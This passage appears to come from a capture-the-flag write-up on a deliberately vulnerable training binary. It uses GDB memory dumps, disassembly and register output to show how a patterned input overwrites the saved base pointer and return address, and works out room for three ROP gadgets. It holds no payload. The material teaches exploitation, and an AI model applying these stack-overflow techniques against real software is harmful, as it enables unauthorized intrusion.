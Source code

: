 ```
0x7ffd738679a0:	0x4141414141414141	0x4242424242424242
0x7ffd738679b0:	0x4343434343434343	0x4444444444444444
0x7ffd738679c0:	0x4545454545454545	0x4646464646464646
0x7ffd738679d0:	0x4747474747474747	0x4848484848484848
0x7ffd738679e0:	0x0000000000000000	0x00007fb2f2ac50b3
0x7ffd738679f0:	0x0000000000000031	0x00007ffd73867ad8
0x7ffd73867a00:	0x00000001f2c86618	0x0000000000400847
=> 0x40099b <pwnme+170>:	mov    edi,0x400b69
   0x4009a0 <pwnme+175>:	call   0x4006e0 <puts@plt>
   0x4009a5 <pwnme+180>:	nop
   0x4009a6 <pwnme+181>:	leave  
   0x4009a7 <pwnme+182>:	ret    
   0x4009a8 <uselessFunction>:	push   rbp
   0x4009a9 <uselessFunction+1>:	mov    rbp,rsp
   0x4009ac <uselessFunction+4>:	call   0x400720 <foothold_function@plt>
```
- Now we can see that our 2nd input has now only partially been stored on the stack, we've actually overwritten the base pointer and the return address on the stack (`0x4848484848484848 == HHHHHHHH`)
- If we continue execution, we will segfault:
> (gdb) `c`  
```
Continuing.
Thank you!

Program received signal SIGSEGV, Segmentation fault.
rax            0xb                 11
rbx            0x4009d0            4196816
rcx            0x7fb2f2baf1e7      140406553244135
rdx            0x0                 0
rsi            0x7fb2f2c8a723      140406554142499
rdi            0x7fb2f2c8c4c0      140406554150080
rbp            0x4545454545454545  0x4545454545454545
rsp            0x7ffd738679c8      0x7ffd738679c8
r8             0xb                 11
r9             0x2                 2
r10            0x400b34            4197172
r11            0x246               582
r12            0x400760            4196192
r13            0x7ffd73867ad0      140726541646544
r14            0x0                 0
r15            0x0                 0
rip            0x4009a7            0x4009a7 <pwnme+182>
eflags         0x10246             [ PF ZF IF RF ]
cs             0x33                51
ss             0x2b                43
ds             0x0                 0
es             0x0                 0
fs             0x0                 0
gs             0x0                 0
[...]
```
- Analysis of what happened to our 2nd input `AAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEEFFFFFFFFGGGGGGGGHHHHHHHHIIIIIIIIJJJJJJJJ`:
  - Only part of our 2nd input was stored on the stack, up to and including `HHHHHHHH`, but everything else was ignored. This is because the 2nd call to `read` only accepts 0x40 == 64 bytes of input, as shown in the disassembly line `0x0000000000400989 <+152>:	mov edx,0x40`.
  - The first 32 bytes of the 2nd input doesn't affect anything, but the following 8 bytes `EEEEEEEE` was where the base pointer was stored.
  - After the base pointer, `FFFFFFFF` was where the return address was stored.
  - After the return address, only `GGGGGGGGHHHHHHHH` was captured and the rest of the 2nd input was ignored.
  - Therefore we only have room for 3 ROP gadgets (or more precisely, 24 bytes), i.e. where `FFFFFFFFGGGGGGGGHHHHHHHH` was situated in our 2nd input.